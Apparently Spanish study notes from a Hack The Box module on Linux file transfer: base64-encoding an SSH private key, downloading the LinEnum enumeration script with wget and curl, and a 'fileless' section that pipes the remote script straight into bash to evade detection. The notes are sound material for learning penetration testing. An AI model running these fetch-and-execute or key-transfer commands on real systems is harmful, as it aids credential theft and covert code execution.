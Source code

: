 
# 1. Codificando y decodificando en Base64
1. Revisamos el MD5 hash del archivo a transmitir:
```shell-session
Polika4RM@htb[/htb]$ md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa
```
2. Lo encriptamos en Base64:
```shell-session
Polika4RM@htb[/htb]$ cat id_rsa |base64 -w 0;echo

LS0tLS... ...5EIE9QRU5TU0ggUFJJVkFURSBLRVktLS0tLQo=
```
3. Lo decodificamos:
```shell-session
Polika4RM@htb[/htb]$ echo -n 'LS0tLS... ...5EIE9QRU5TU0ggUFJJVkFURSBLRVktLS0tLQo=' | base64 -d > id_rsa
```
4. Verficamos el Hash para asegurarnos de que no hemos perdido contenido:
```shell-session
Polika4RM@htb[/htb]$ md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa
```

# 2. Web Downloads with Wget and cURL
*wget* y *curl* son dos opciones que muchas distribuciones de Linux traen por defecto para interaccionar con aplicaciones web.  

**Con wget:**
```shell-session
Polika4RM@htb[/htb]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
El parámetro -O indica la ruta y directorio de guardado de datos.

Con **curl** podemos hacer lo mismo pero indicando con una **-o**:
```shell-session
Polika4RM@htb[/htb]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

# 3. Ataques _Fileless_ en Linux
En Linux, gracias a los pipes (`|`), es posible ejecutar scripts o payloads sin guardarlos en disco.
Esto dificulta la detección, aunque algunos métodos (como mkfifo) pueden generar archivos temporales.

Con curl:
```
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
